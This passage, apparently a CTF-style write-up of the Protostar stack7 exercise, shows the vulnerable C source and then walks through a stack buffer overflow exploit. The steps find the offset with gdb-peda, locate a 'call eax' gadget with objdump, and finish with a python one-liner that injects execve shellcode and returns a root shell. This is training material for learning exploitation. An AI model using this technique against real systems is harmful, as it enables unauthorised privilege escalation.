 
  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
{% endhighlight %}
Vulnerability 
I totally misread the task on the site with this one and spent hours trying to figure out why my ret2libc wouldnt work. :zzz:. Turns out it hints heavily at shellcode.
This time we will shove some shellcode onto the stack then call eax after some nops for the shellcode to execute.

Exploit:
{% highlight bash %}
# Getting the offset
gdb-peda$ pattern_create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
<run locally and get crashed EIP address>
gdb-peda$ pattern_offset 0x41414a41
1094797889 found at offset: 80
# Getting a gadget
There was no 'jmp esp' calls so couldnt take the normal route. Luckily thats not the only way to execute shellcode in this case.

$ objdump -M intel -D stack7 | grep "call.*eax"
 8048478:	ff 14 85 5c 96 04 08 	call   DWORD PTR [eax*4+0x804965c]
 80484bf:	ff d0                	call   eax
 80485eb:	ff d0                	call   eax

# Getting shellcode
Just found some on exploitdb - /exploits/13357
# Final exploit;

$ echo `python -c 'print("\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "\x90"*25 + "\xbf\x84\x04\x08")'` | ./stack7
input path please: got path 1�1۰̀Sh/ttyh/dev��1�f�'�̀1�Ph//shh/bin��PS�ᙰ
                                                                      ������������������������
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
# whoami
root

{% endhighlight %}